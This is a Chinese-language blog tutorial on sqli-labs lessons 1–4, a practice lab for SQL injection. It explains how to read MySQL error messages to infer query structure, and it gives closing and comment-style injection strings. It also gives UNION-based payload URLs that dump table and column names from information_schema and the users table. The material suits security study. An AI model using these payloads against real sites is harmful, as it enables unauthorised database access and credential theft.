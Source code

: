 ```yaml
---
title: Sql注入学习之sqli-lab-1-4
tags: [Sql注入]
categories: [网络安全]
date: 2016-03-19 14:17:08
---
```


## 1. Less-1 GET-基于错误-单引号-字符型

![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1-1.png?)

我们将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

<!-- more -->

截取我们感兴趣的那一部分, 即:
` ''1'' LIMIT 0,1' `
为了让大家看的更加清楚一下, 我们去掉前后匹配单引号并故意拉大其中的距离
` '　　1'　　' LIMIT 0,1 `
可以看到 `1'` 是我们输入的数据

接着我们再测试一下

![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1-2.png?)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1

同样的方法摘取我们感兴趣的:
` ''1\' LIMIT 0,1' `
去掉前后匹配的单引号, 拉大距离:
` '　　1\　　' LIMIT 0,1 `
可以清楚的看出这次我们输入的是 `1\`

将俩次分析后的结果放在一起比较: 
` '　　1'　　' LIMIT 0,1 `
` '　　1\　　' LIMIT 0,1 `
其中`1'`和`1\`是由用户输入的, 所以由报错信息, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = ' our-provided-input '

即所有用户输入都被包含在一个单引号之中。 我们称其为字符型。 在注入时要考虑“闭合”单引号。

----------------------------------------

## 2. Less-2 GET-基于错误-整数型
    
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L2-1.png?)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1

` '' LIMIT 0,1' `

去掉前后的单引号后我们发现仅仅剩下我们刚才输入的 `1'` 后面的 `'` 了。
`　　'　　LIMIT 0,1 `
同理, 我们试着输入 `1\`得到的结果如下:
`　　\　　LIMIT 0,1 `
很显然, 前面的数字被正常接受了

所以, 同Less-1, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = our-provided-input 

即, 用户输入没有被任何字符包含。 我们称其为数字型。

--------------------------------------------------

## 3. Less-3 GET-基于错误-单引号和括号-字符型

![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L3-1.png?)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1

` ''1'') LIMIT 0,1' `

去掉前后匹配的单引号, 拉大距离:
` '　　1'　　') `
同上测试 `1\`
` '　　1\　　') `
其中`1'`和`1\`是由用户输入的, 所以由报错信息, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = (' our-provided-input ')

所以在注入时 要考虑"闭合"后面的`')`: 所以注入语句如下:
` 1') or/and ('1')=('1 `   即:  id = ('1') or/and ('1')=('1') LIMIT 0,1
` 1') --+ `     即:  id = ('1') --+ ') 注释法

-----------------------------------------

## 4. Less-4 GET-基于错误-双引号和括号-字符型

![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L4-1.png?)

同样, 将其中错误信息拷贝出来

    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1\") LIMIT 0,1' at line 1

` '"1\") LIMIT 0,1' `

去掉前后匹配的单引号, 拉大距离, 测试输入`1"`和`1"`:
` "　　1"　　") `
` "　　1\　　") `
由报错信息, 我们可以推测出Sql语句为:

    SELECT user_name, password FROM table WHERE id = (" our-provided-input ")

所以在注入时 要考虑"闭合"后面的`")`: 所以注入语句如下:
` 1") or/and ("1")=("1 `   即:  id = ("1") or/and ("1")=("1") LIMIT 0,1
` 1") --+ `     即:  id = ("1") --+ ') 注释法

------------------------------------------------

## 5. Less1 - Less4 小结

Less1-4 因为根据**id**传入不同有数据回显给我们, 所以可以用联合语句爆出我们感兴趣的一些字段:
例如:
### 猜测字段:
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-1.png?)
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-2.png?)
可以知道字段数字为**3**个
### 找暴露点
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-3.png?)
可以看出没有什么数字爆出, 这是我们把**id**的值改为负数
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-4.png?)
这样, 我们看到有数字 2, 3 暴露了出来

### 查询一些数据库名, 版本, 用户等重要信息
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-5.png?)

由上图我们知道数据库版本是mysql的**5.0**以上版本, 所以可以用**information.schema**查询

### 所有表名
用以下语句可以看出security数据库中的所有表名
10.211.55.7/sqli/Less-4/?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-6.png?)

### 所有字段名
用一下语句可以看到users表中的所有字段名
10.211.55.7/sqli/Less-4/?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-7.png?)

最后我们知道了表名和字段名, 便可以直接查询其中的值, 如下图中查询emails表中的id和email值:
![](http://7xrahm.com1.z0.glb.clouddn.com/blog/Sql%E6%B3%A8%E5%85%A5%E5%AD%A6%E4%B9%A0%E4%B9%8Bsqli-lab/L1_4-8.png?)

